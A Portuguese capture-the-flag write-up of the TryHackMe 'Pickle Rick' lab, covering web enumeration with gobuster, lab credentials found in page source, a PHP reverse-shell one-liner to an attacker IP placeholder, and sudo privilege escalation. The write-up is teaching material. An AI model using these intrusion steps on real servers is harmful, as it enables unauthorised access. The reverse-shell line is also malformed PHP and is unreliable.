

# Pickle Rick

Sala do TryHackMe: **[https://tryhackme.com/r/room/picklerick](https://tryhackme.com/r/room/picklerick)


Descrição da Sala: 

“This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: MACHINE_IP”

Resolução:

Para começar, mesmo que na descrição peça para acessar a internet e inserir o IP como endereço http, eu decidi aproveitar para tentar um scan do nmap( “nmap -T4“) para encontrar mais alguma porta na máquina.

Das portas abertas, a única acessível até o momento é realmente a http, que ao ser acessada no navegador, nos mostra a seguinte página:

A página nos pede para encontrar 3 ingredientes(senhas) para conseguir concluir o CTF com sucesso, ao usar a ferramenta inspecionar na página encontramos um usuário:

<aside>
💡

“R1ckRul3s”

</aside>

Isso nos leva a crer que exista uma página de login, mas antes de verificar usarei uma lista de palavras de tamanho médio junto ao GoBuster para tentar encontrar possíveis URL’s úteis para o nosso desafio.

<aside>
💡

gobuster dir -u <url> -w <path para a wordlist>

</aside>

Com o resultado do GoBuster, nós acessamos robots.txt, que apenas mostra “Wubbalubbadubdub”. Depois de algum tempo, eu me lembrei de tentar outras extensões no GoBuster e para isso só necessitamos de -x <extensão desejada>, então tentamos php e achamos “/login.php” que é referente à página:

<aside>
💡

gobuster dir -u <url> -w <path para a wordlist> -x php

</aside>

Tentando fazer o acesso com o usuário que conseguimos anteriormente e a palavra de “robots.txt”, conseguimos ir para “portal.php” que é referente à página:



Conseguimos fazer login com as credenciais `R1ckRul3s:Wubbalubbadubdub`. Lá, econtramos um painel de comando:


Com esse painel de comando acessível, usamos “ls” para ver ao que exatamente ele está relacionado.

Ao tentar acessar o arquivo nada suspeito “Sup3rS3cretPickl3Ingred.txt”, conseguimos a primeira senha do desafio.

Todas as outras páginas só levam a uma página de permissão negada.

Após isso, decidimos estabelecer um reverse shell, seguido de uma escalação de privilégio para termos acesso ao sudo. Mandamos o seguinte comando no painel (antes, abrimos um terminal e colocamos um escutador netcat para receber o reverse shell):

```jsx
php -r '$sock=fsockopen("<SEUIPPPPPPPPP>",1234);/bin/sh <&3 >&3 2>&3;'
```

Em nossa máquina, executamos o seguinte (também era possível encontrar a primeira flag depois de conseguir o reverse shell).


Depois, procuramos formas de escalar privilégios e encontramos que o usuário pode executar qualquer comando com privilégios de root, então rodamos:

```jsx
sudo su
```

Aqui, nos tornamos root e basta explorar o diretório para encontrar as demais flags.


Portanto, conseguimos concluir esse CTF com sucesso.